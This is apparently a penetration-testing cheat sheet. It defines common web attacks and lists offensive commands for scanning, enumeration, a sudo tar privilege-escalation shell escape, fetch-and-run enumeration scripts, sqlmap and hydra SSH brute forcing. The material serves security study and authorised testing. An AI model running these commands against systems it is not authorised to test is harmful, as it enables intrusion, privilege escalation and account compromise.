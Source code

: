 ### Attacks
> **XML External Entities (XXE)**: An attack targeting XML parsers that can process external entities. It can lead to data exposure, server-side request forgery (SSRF), and denial of service (DoS).

> **Cross-Site Scripting (XSS)**: A vulnerability allowing attackers to inject malicious scripts into web pages viewed by other users. This can lead to session hijacking, data theft, and defacement of websites.

> **Prototype Pollution**: An attack that exploits the ability to modify JavaScript object prototypes. This can result in an attacker injecting properties into objects, potentially leading to denial of service, arbitrary code execution, or data tampering.

> **Local File Inclusion (LFI)**: A vulnerability that allows an attacker to include files on a server through the web browser. This can be exploited to read sensitive files, execute code, or access configuration files.

> **SQL Injection (SQLi)**: A code injection technique that allows an attacker to interfere with the queries an application makes to its database. This can lead to unauthorized viewing of data, data modification, and database destruction.

### Web Enumeration
```sh
rustscan -a <TARGET_IP> --ulimit 50000
feroxbuster -u <TARGET_URL> -w <WORDLIST> -t 50 -r -x php,html,js
nikto -host <TARGET_IP>
```

### Port Scanning
```sh
nmap -sC -sV -oA nmap_scan <TARGET_IP>
masscan -p1-65535,U:1-65535 <TARGET_IP> --rate=1000 -oX masscan.xml
```

### Service Enumeration
```sh
enum4linux -a <TARGET_IP>
rpcclient -U "" <TARGET_IP>
smbclient -L <TARGET_IP> -N
ldapsearch -x -h <TARGET_IP> -b "dc=example,dc=com"
```

### System Enumeration
```sh
sudo -l  # List all commands the current user can execute.
sudo -V
uname -a
hostnamectl
whoami
id
env
```

### Privilege Escalation Techniques
```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh  # Shell Escape using tar
```

### File and Directory Enumeration
```sh
find / -type f -perm -u=s 2>/dev/null
find / -type f -name "root" -perm /4000 2> /dev/null
find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/*" -writable 2>/dev/null
find /usr/bin -maxdepth 1 -type f -executable -user $(whoami) -exec basename {} \;
```

### Network Enumeration
```sh
ifconfig -a
ip a
netstat -tulnp
ss -tulnp
arp -a
route
```

### Automation Enumeration
```sh
curl -LO https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

curl -LO https://github.com/rebootuser/LinEnum/raw/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

curl -LO https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

curl -LO https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python3 linuxprivchecker.py
```

### Automation Attack
```sh
searchsploit <SEARCH_TERM>
msfconsole
```

### Exploit Development
```sh
pwntools
ROPgadget --binary <BINARY>
gdb -q <BINARY>
```

### Web Exploitation
```sh
sqlmap -u <TARGET_URL> --batch --level=5 --risk=3
wpscan --url <TARGET_URL> --enumerate u,p
```

### Post Exploitation
```sh
meterpreter
empire
```

### Bruteforce
```sh
# Hydra: A powerful online password-cracking tool.
hydra -l <USERNAME> -P <BRUTEFORCE.TXT> <TARGET_IP> -t 4 ssh  # Example usage for SSH

# Gobuster: Web directory and file brute-forcing tool for web application enumeration.
gobuster dir -u <TARGET_URL> -w <WORDLIST> -t 50

# ffuf: Fast web fuzzer written in Go
ffuf -w <WORDLIST_PATH> -u <TARGET> -H "Host:<TARGET-FUZZ>" -fw 6 -s
```
